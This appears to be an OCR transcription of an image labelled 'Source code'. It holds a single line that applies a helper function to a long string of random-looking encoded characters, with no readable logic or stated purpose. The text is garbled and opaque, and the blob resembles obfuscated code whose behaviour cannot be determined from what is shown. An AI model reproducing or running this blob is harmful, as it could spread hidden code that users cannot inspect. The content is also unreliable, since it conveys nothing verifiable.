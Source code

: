 r=_(a,"^D5abvQF4w-_B0UHvBBU_vwB4vFQvDa4DHv0vva05HuFU4Ba_-_K4-FDQD0BBQ-44HFQ-q_mwbFvQbUDBF-UwvFBUaBUvHvw(D5FB0_bw_0Q0D_w--aUQ_vvaHDHBDHH0cBwv0wbF0QDb05ve-k50-BxQa-DF-QBbFUQH-2aU-0{wBwvF-DUa_HH0aHBH-44_vw_4DQwv0aa5v0wB>-F4UvBw5F4DDaB54DwH}UaB0-Q5-DYHF0UBv-BvaTB-Db-aQDQH0UbD_DUH-UaBBwFwwDUs4U-0D_4HvUF0wBw-k5bDDHJ0F_UHw0BBaBQ-5-DFbQ40HB--_w5Fw-a_Qw-4bQUDQBB_Qw4FHQQB}-bFBFwvF05B5wU4vQBw-wHwvbBv4bwaDVvHw0v_Ub55-eUHv0BK_DwtDF-QQbQ50Dbb_bU5-5wHBHd04bUawD-RDU4DbDB1aUwBUBQa_5_hFUU0vD#,4HQ0Q-44Hw5QUQ0bhab-_wFFFvUbvw4FBvBva5w5DyHFUQbb_a5Dw=iUF_UHbw04aQ-vDa4DHUQvBDb_0--4wFJvFw5wbQXvbbB54M0eaF4Q-bb5_D5a-vva_D00_000v_FF0F0Fvb_aw_Q-v45QwvnF-4QQ-bHaU}_DQU0U5B-aH5FW_H50wDbHF0AFFQvba5-DDa_vD5FDam4B_Ba_EwvDwk5UvBB_a7FU50B_Fa4547bU_05HUDDHB0FBvwa44Q_QDbF50-4wvFbv_b5Q-4vQ_b0V_!03vUFQaQD5HDQH0aDa-5DjF0aBB_DwbQHFFvBa-5QAQHw_v_0wH4QQUvUD4a5DwHUFvQHbD547Hb_b054OB3Q0U-w_-w-FQQ-bFDFD-:-UAB0_5FwQUv5U_0B_FwU4v0vBD-n4-FQv4b-55DFHH0aBQb5ab/UHv0BDQ,HH000B5_-b0Q_Q(baawDHqv4lFfbBaaD-b-vQDB5HU_Uw0H-w-4w5F5H9Ua_B-a4-_FBD-04-vav0b0avD00a0HBF_Dw}DvHUUDB4-HU5UBB__-abDU6?UFBUHwhDUb0U_wa-5B*QU00bHU%-UU0aB54_4Q4ov4bB5-}wH_FFv0bb5_D5HwMEaDUUwQFBQa_-bBwa4_0Q7U_Q-?45Qwve4aFHQFvDaH_B-444QHvQ-awQF-vH5_>FUwwjF4vBba5-Qvb4DnB4_bwbF_Q5_dwv4_Qvb-a-5wwB4BQ4bHaQQ_Fa5HbDD0LFUB_DBb-_4H*BH004_H-QU5Ub_H-aw0Fva4bb5wHDUQB-QabH5HDQH054aV5vV0H50QBFaQDBqaD-B5f-vH4D-Uvva_55ywHS0F_U-v4BFvvUbD542Ha_va50DFwbFBQgbF5UQwbBDQB__Dw4FHQQb0abD_b5U_Ub_FwU4vBDBawU45FBvb5455svHF_4B__vwR45a4bb5bDF6bF-QUbQ50Dbvdv550DDx_Ua-U_HwHF_QHbBDbqwU04QFbv5aw5sF_v05wD0DvHD0QBB4H54DQHb0_B5UBH4040c-Q4H4FvHvaB-_BwQF0Qb--4w4aFab_b42vUvU5_H_QFBF4s4H-0b__-50B0vB__54UF-v-b0UDUUHcU4B-bQa#D5HwUhD6DBH__0BvbBbDD4HHUQ5%5wz-UF0_wQw4wDFw8BDb5UDvUw05BDaHQF;_H50w54D_k5UvBHF0vwbIQQbba0D0HFUa0-F_vUbFFQvDavDBB4HaB0_H-5b_QFv-IDH-PBHaBawUQ_FaFBQLbB5bTwKD0w_H-DQ5bb5FDaH-0UBF-Hw-FUQcbwaDDBZaUFBFUB0B-HaFDHWaU-0D%BUH0QQHv_a_55!wa4b_a5Dv0a04BUbaabKHHQ00Nv5=TQU4_a-B-5Q4QBbbbDDHw-4aQQb0ab4HQavBa__w-v4vQBva4D4QFQvbb4DUD{40FFvwbn5FQDQBb_avCUwa4DvHbQ50Q4Q-aQ5-55HUUa0w_HavD0qDU4BHN-U0_QQ0vBaw5S&Fv-bbD0OFH0UvB--4wbFbHQUlB5-ww6_-B0_Dw_4vHBUDB4-HwQFHQFb_a5DwbFvBaB_QwB4a,--bUv-aU-5U0QBC-54wFJ-b-awDFDv40BBF-44HFQ_b_aw0FUv0DaBw_HwvFBQawBwQ44Q_bHaZDv>HUFB0-a-_40FFb0a-DH-aw5QHvQa0Q_F+QQ5B5vDwpb0U_H-45BD0H40HBQibHBUb0Q-Uvz4-QDvFaDD4O44aw-bHaQD0vFb(5)HHUBBBBQFv4bF4bBDDH4D-HaHB0QBb-U4UaHbF5D55BB_aw-4D-DwU4_vDvw50DF_w_-4F-D4-Q-bwaQDQD>_HBUB5wQv_5aJwH%5HU0_aFQFHwBba5_